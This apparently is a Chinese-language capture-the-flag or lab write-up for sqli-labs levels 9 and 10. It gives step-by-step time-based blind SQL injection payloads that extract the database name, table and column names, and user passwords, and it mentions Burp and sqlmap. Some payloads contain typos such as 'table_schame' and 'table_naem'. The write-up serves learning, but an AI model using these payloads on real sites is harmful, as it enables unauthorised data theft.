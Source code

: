 
* 发现无论输入什么，就只有那一句话，这就说明，没有回显，没有报错，不能布尔盲注

那么就只能，利用一下，绝招(绝境用的招数)，延时注入
```
?id=1' and sleep(5) --+
```
![image](https://user-images.githubusercontent.com/76896357/114900360-612a6600-9e46-11eb-90e3-bd246dea60c8.png)

还真睡了5秒

就这样，通过判断真假来让其睡眠

* 查库

判断库的长度
```
?id=1 and if(length(database())>5,sleep(3),1) --+
```

![image](https://user-images.githubusercontent.com/76896357/114902251-37723e80-9e48-11eb-928a-e3eb069b74a2.png)


之后在尝试找到8，利用bp也可以爆破

之后再构造left语句，查询每一位
```
?id=1' and if(left(database(),8)-'ssss',sleep(3),1)
```
只要时间够，利用bp是完全可以爆下来的
* 查表

```
?id=1' and if(left((select table_name from information_schema.tables where table_schame='sequrity' limit 1,1),1)='s', sleep(3), 1) --+
```

* 查列

```
?id=1' and if(left((select column_name from information_schema.columns where table_naem='users' limit 1,1),1)='a',sleep(3),1) --+

?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password', sleep(3), 1) --+//最终结果
```

* 查字段

```
?id=1' and if(left((select password from security.users limit 1,1),1)='p',sleep(3),1) --+

?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' , sleep(3), 1) --+//最后结果
```

由于每次都要手动换好几个数，可以利用sqlmap。。

## 10. 和9题类似，只有 单双引号的区别，不再赘述。。。
